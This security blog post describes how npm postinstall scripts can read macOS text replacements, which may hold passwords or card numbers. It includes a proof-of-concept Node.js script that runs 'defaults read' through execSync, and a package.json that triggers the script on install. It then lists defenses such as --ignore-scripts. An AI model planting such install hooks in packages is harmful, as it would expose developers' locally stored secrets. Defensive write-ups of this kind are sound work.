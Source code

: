 ```yaml
---
title: 'Using insecure npm package manager defaults to steal your macOS keyboard shortcuts'
description: >-
  Node Package Manager (npm) provides a set of scripts for developers and package maintainers to maintain the life cycle events of a package.
date: 2023-06-28
tag: security
status: published
canonical_url: 'https://snyk.io/blog/using-insecure-npm-package-manager-defaults/'
---
```


> This article is originally available at [Snyk.io][snyk-blog].

Malicious npm packages and their dangers have been a frequent topic of discussion — whether
it’s [hundreds of command-and-control Cobalt Strike malware packages][cobalt-strike],
[typosquatting][typosquatting], or general malware published to the npm registry
(including PyPI and others). To help developers and maintainers defend against these security
risks, [Snyk published a guide to npm security best practices][snyk-best-practices].

All that said, the following attack scope, which Yagiz Nizipli alerted long-time maintainers to,
and the real-world risk related to data compromise are a great example of how important it is to
minimize the risks of arbitrary command execution with package managers, such as those employed
via npm’s postinstall lifecycle hooks.

## Life cycle scripts of npm

Node Package Manager (npm) provides a set of scripts for developers and package maintainers to
maintain the life cycle events of a package. These scripts provide significant value to
developers by enabling them to perform various tasks or configurations as part of the package
installation process. For example, with `postinstall` scripts, developers can automate tasks such
as building assets, setting up environment variables, running migrations, or any tasks that can
be automatically executed.

The `scripts` property of a `package.json` file defines the commands triggered by the package's
lifecycle and the dependent of the package you're developing. As of today, `npm` supports
a limited number of life cycle scripts in any scripts property of a package.json file.

For simplicity, the rest of this article will focus on the `postinstall` command. However, all concepts provided by this article also apply to other life cycle operations.

## Past security incidents

There have been several high-profile incidents that had a real-world impact on JavaScript developers, including:

- The [cross-env](https://iamakulov.com/notes/npm-malicious-packages/) security incident discovered by Oscar Bolmsten.
- The [eslint-scope security compromise](https://eslint.org/blog/2018/07/postmortem-for-malicious-package-publishes/).
- The [event-stream spear-headed attack](https://snyk.io/blog/a-post-mortem-of-the-malicious-event-stream-backdoor/) on cryptocurrency application developers.

Many other JavaScript and Node.js security incidents are curated on the
[Awesome Node.js Security repository][awesome-nodejs-security].

## Data-at-rest Security

Security professionals identify the protection of assets when the data is stored or at rest by
`Data-at-rest`, as opposed to when it is in transit or being processed. It focuses on protecting
the sensitive information stored in databases, file systems, or persistent storage. Data-at-rest
security aims to prevent unauthorized access, disclosure, or data tampering while it is dormant.
Various measures are available to ensure data-at-rest security, such as:

- **On-demand decryption**: Decrypting only the data required to perform the current task and storing the rest of the data encrypted to prevent forbidden access.
- **Access control logic**: Validating the requester's identity through a mechanism such as a password, two-factor authentication, or biometrics provided by an operating system (such as FaceID) — making it possible to limit the exposure of the resource to unwanted people.

### Attack surface of a developer

Industry best practices force us to use and follow principles to develop applications. These best practices offer many advantages when working with different teams and developers but also increase the attack surface.

What sort of data is lying around unencrypted in a developer machine?

- Environment variables through plain text files, such as .env (available for consumption through the dotenv package).
- Configuration files for projects stored as a JSON file, such as config.json.
- SSH keys for accessing Github/Gitlab, which are available in the ~/.ssh folder.
- And... **macOS Keyboard Shortcuts**!

## macOS Text Replacements

macOS, by default, has a feature called `Text Replacements` hidden inside the system preferences
applications. This feature allows users to quickly replace a word with another word. Just
recently, I've learned that a developer from a well-known company was using text replacements
to replace `@card` keyword with their credit card information. Even though the credit card number
without the expiration date or CVV does not expose your money to outsiders, it adds an attack
surface for them to exploit.

![macOS Text Replacements](/content/macos-text-replacements.png)

> Text Replacements feature is available through System Preferences application, under the `Keyboard` menu item.

## Exfiltrating keyboard text replacements

Keyboard shortcuts are stored under `defaults`, which corresponds to a filesystem backed `.plist`
file somewhere in your local folder. Executing the following command will return your configured
text replacements, which are also available through the System Preferences application.

Remember that the following code does not require `sudo` access and can be executed by any
process in your computer.

```bash title="Reading text replacements"
> defaults read -g NSUserDictionaryReplacementItems
(
  {
    on = 1;
    replace = "@ssh-key";
    with = "my-secret-password";
  }
)
```

The same command can be executed through `execSync` in Node.js, and parsed without any hassle,
through the `postinstall` life cycle operation supported by the `npm` package manager.

The following is an example of a Node.js script that can be employed by malicious actors to
access macOS text replacements and exfiltrate sensitive data:

```js title="Retrieve text replacements"
import { execSync } from 'node:child_process'

const decoder = new TextDecoder()
const res = execSync('defaults read -g NSUserDictionaryReplacementItems')
const text_replacements = decoder.decode(res)

console.log(text_replacements)
```

To make sure the above code runs when this package is installed, we will update the package
manifest file as follows `package.json`:

```json title="Exploiting the postinstall command"
{
  "name": "my-useful-library",
  "version": "1.0.0",
  "description": "",
  "main": "index.js",
  "type": "module",
  "scripts": {
    "test": "echo \"Error: no test specified\" && exit 1",
    "postinstall": "node ./retrieve.js"
  },
  "keywords": [],
  "author": "",
  "license": "ISC"
}
```

When distributed through npm, and downloaded by a developer, this library will directly execute
our custom script to retrieve and process the keyboard replacements. If you aren’t careful,
it's easy to miss the line containing > node ./retrieve.js.

```bash title="NPM install flow"
➜  vulnerable npm i

> my-useful-library@1.0.0 postinstall
> node ./retrieve.js

up to date, audited 1 package in 192ms

found 0 vulnerabilities
➜  vulnerable
```

## Protection

What can you do as a developer to mitigate the security risks of malicious npm packages and
general security concerns of arbitrary command execution from packages in your dependency tree?

### Ignore scripts on npm package installations

Protecting yourself from packages that leverage `postinstall` scripts is possible. npm
provides `--ignore-scripts` configuration when installing packages.

```bash title="Ignore all scripts"
➜  npm i --ignore-scripts
up to date, audited 1 package in 124ms
found 0 vulnerabilities
```

### Use safe npm defaults

NPM has a configuration file called [.npmrc](npmrc-documentation). You can change the default
preferences using the `npm` CLI to ensure secure defaults:

```bash title="Ignore all scripts by default"
➜  npm config set ignore-scripts true
➜  npm i
up to date, audited 1 package in 126ms
found 0 vulnerabilities
```

### Secure storage

Most importantly, you should never store sensitive information in plain text. If you have to
store it in plain text due to other requirements, you should always make the resource
accessible through multi-factor authentication.

---

**Note**: Originally, I've written this article on [Snyk blog][snyk-blog] published by Liran Tal.

[awesome-nodejs-security]: https://github.com/lirantal/awesome-nodejs-security
[cobalt-strike]: https://snyk.io/blog/snyk-200-malicious-npm-packages-cobalt-strike-dependency-confusion-attacks/
[typosquatting]: https://snyk.io/blog/typosquatting-attacks/
[snyk-best-practices]: https://snyk.io/blog/ten-npm-security-best-practices/
[npm-scripts-documentation]: https://docs.npmjs.com/cli/v9/using-npm/scripts
[npmrc-documentation]: https://docs.npmjs.com/cli/v9/configuring-npm/npmrc
[snyk-blog]: https://snyk.io/blog/using-insecure-npm-package-manager-defaults/
